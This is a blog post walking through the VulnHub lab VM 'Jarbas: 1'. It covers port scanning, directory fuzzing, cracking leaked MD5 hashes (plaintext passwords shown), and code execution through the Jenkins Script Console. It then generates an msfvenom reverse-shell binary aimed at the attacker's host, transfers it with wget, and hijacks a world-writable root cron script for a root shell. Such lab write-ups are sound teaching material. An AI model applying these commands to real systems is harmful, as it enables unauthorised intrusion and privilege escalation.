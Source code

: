 ```yaml
---
layout: post
date: 2018-08-03 12:16:52 +0000
title: "Jarbas: 1 Walkthrough"
subtitle: "Those Were the Days"
category: Walkthrough
tags: [VulnHub, "LazySysAdmin"]
comments: true
image:
  feature: jarbas-1-walkthrough.jpg
  credit: Free-Photos / Pixabay
  creditlink: https://pixabay.com/en/books-library-education-literature-768426/
---
```


This post documents the complete walkthrough of Jarbas: 1, a boot2root [VM][1] created by [Tiago Tavares][2], and hosted at [VulnHub][3]. If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

### Background

A tribute to a nostalgic Brazilian search engine in the end of 90’s. The aim is to get a `root` shell.

### Information

Let’s start with a nmap scan to establish the available services in the host.

```
# nmap -n -v -Pn -p- -A --reason -oN nmap.txt 192.168.10.130
...
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 64 OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 28:bc:49:3c:6c:43:29:57:3c:b8:85:9a:6d:3c:16:3f (RSA)
|   256 a0:1b:90:2c:da:79:eb:8f:3b:14:de:bb:3f:d2:e7:3f (ECDSA)
|_  256 57:72:08:54:b7:56:ff:c3:e6:16:6f:97:cf:ae:7f:76 (ED25519)
80/tcp   open  http    syn-ack ttl 64 Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
| http-methods:
|   Supported Methods: GET HEAD POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.4.16
|_http-title: Jarbas - O Seu Mordomo Virtual!
3306/tcp open  mysql   syn-ack ttl 64 MariaDB (unauthorized)
8080/tcp open  http    syn-ack ttl 64 Jetty 9.4.z-SNAPSHOT
|_http-favicon: Unknown favicon MD5: 23E8C7BD78E8CD826C5A6073B15068B1
| http-robots.txt: 1 disallowed entry
|_/
|_http-server-header: Jetty(9.4.z-SNAPSHOT)
|_http-title: Site doesn't have a title (text/html;charset=utf-8).
```

`nmap` finds `22/tcp`, `80/tcp`, `3306/tcp`, and `8080/tcp` open. Nothing unusual here.

### Directory/File Enumeration

Let's use `wfuzz` to determine any directories or files of interest. I use the following options.

```
# export WORDLIST=/usr/share/wfuzz/wordlists/general
# wfuzz -w $WORDLIST/megabeast.txt -w $WORDLIST/extensions_common.txt --hc 404 -t 64 http://192.168.10.130/FUZZFUZ2Z
```

Here's the result of running the command.

```
********************************************************
* Wfuzz 2.2.11 - The Web Fuzzer                        *
********************************************************

Target: http://192.168.10.130/FUZZFUZ2Z
Total requests: 1272964

==================================================================
ID	Response   Lines      Word         Chars          Payload    
==================================================================

009671:  C=200     13 L	      28 W	    359 Ch	  "access - .html"
582568:  C=200   1006 L	    4983 W	  74409 Ch	  "icons - /"
600443:  C=200    403 L	    1784 W	  32808 Ch	  "index - .html"
```

Here's what `access.html` looks like.

![access.html](/assets/images/posts/jarbas-1-walkthrough/01cca602.png)

The usernames and password hashes is a clear invitation to perform offline password cracking.

### Jenkins

**John the Ripper** can crack the password hashes as follows.

```
# john --format=raw-md5 --show hashes.txt
tiago:italia99
trindade:marianna
eder:vipsu

3 password hashes cracked, 0 left
```

It turns out that Jenkins is running behind `8080/tcp` seen earlier in the `nmap` scan. Here's what it looks like.

![Jenkins](/assets/images/posts/jarbas-1-walkthrough/fd1eb8f9.png)

The credential (`eder:vipsu`) allows us to login in to Jenkins.

![Logged In](/assets/images/posts/jarbas-1-walkthrough/9e1fb477.png)

I soon discover that Jenkins allows the execution of Groovy scripts in **Script Console**.

![Script Console](/assets/images/posts/jarbas-1-walkthrough/7507d3e1.png)

### Groovy Script

According to Wikipedia,

> Apache Groovy is a Java-syntax-compatible object-oriented programming language for the Java platform. It is both a static and dynamic language with features similar to those of Python, Ruby, Perl, and Smalltalk. It can be used as both a programming language and a scripting language for the Java Platform, is compiled to Java virtual machine (JVM) bytecode, and interoperates seamlessly with other Java code and libraries.

The console is able to execute shell commands like so.

![id](/assets/images/posts/jarbas-1-walkthrough/407406c2.png)

The result above shows the output of running `id`. We are executing shell commands in the context of the `jenkins` account.

Let's see if we can execute `wget` to get ourselves a shell.

![wget](/assets/images/posts/jarbas-1-walkthrough/df946598.png)

Awesome. Now, we can transfer a reverse shell executable over. But, before we do that, we need to determine if we are dealing with a 32-bit or 64-bit OS.

![uname -a](/assets/images/posts/jarbas-1-walkthrough/c08a81a2.png)

Let's generate the reverse shell on our attacking machine:

```
# msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.10.128 LPORT=4444 -f elf -o rev
```

We can now set up `SimpleHTTPServer` on our attacking and transfer it over with `wget` at the **Script Console**.

_On our attacking machine_

![wget](/assets/images/posts/jarbas-1-walkthrough/c842c9da.png)

_At the **Script Console**_

![wget](/assets/images/posts/jarbas-1-walkthrough/89ef4e95.png)

Remember to make the `/tmp/rev` executable with `chmod +x /tmp/rev`.

![ls](/assets/images/posts/jarbas-1-walkthrough/18f4e608.png)

We should be good to go. Let's run our `netcat` listener and execute `/tmp/rev` at the console.

![shell](/assets/images/posts/jarbas-1-walkthrough/40bd5800.png)

We have shell.

### Privilege Escalation

I had my hopes pinned on [CVE-2017-1000253](https://www.qualys.com/2017/09/26/linux-pie-cve-2017-1000253/cve-2017-1000253.txt) from the get-go.

![CentOS](/assets/images/posts/jarbas-1-walkthrough/0e4bacad.png)

The VM is running on CentOS 7 with a 3.10 kernel. The conditions are almost identical to CVE-2017-1000253.

Too bad the VM is one version shy of being vulnerable. I've no choice but to look for other ways to gain root access.

During the process of checking for world-writable files in the VM, I stumbled upon this.

```
$ find / -type f -perm /o+w -ls 2>/dev/null
...
844412    4 -rwxrwxrwx   1 root     root           50 Apr  1 14:00 /etc/script/CleaningScript.sh
```

![CleaningScript.sh](/assets/images/posts/jarbas-1-walkthrough/d9f3a650.png)

If I've to guess from its content, I'd say this is probably run under `root`'s `crontab`.

Let's append our reverse shell to the script.

![rev](/assets/images/posts/jarbas-1-walkthrough/4b94503e.png)

Boom. A `root` shell.

![root](/assets/images/posts/jarbas-1-walkthrough/d710bca7.png)

My guess was right.

![crontab](/assets/images/posts/jarbas-1-walkthrough/2198ba7e.png)

### Root Dance

Getting the flag is trivial.

![flag](/assets/images/posts/jarbas-1-walkthrough/bad0fdf5.png)

:dancer:

[1]: https://www.vulnhub.com/entry/jarbas-1,232/
[2]: https://twitter.com/@tiagotvrs
[3]: https://www.vulnhub.com/
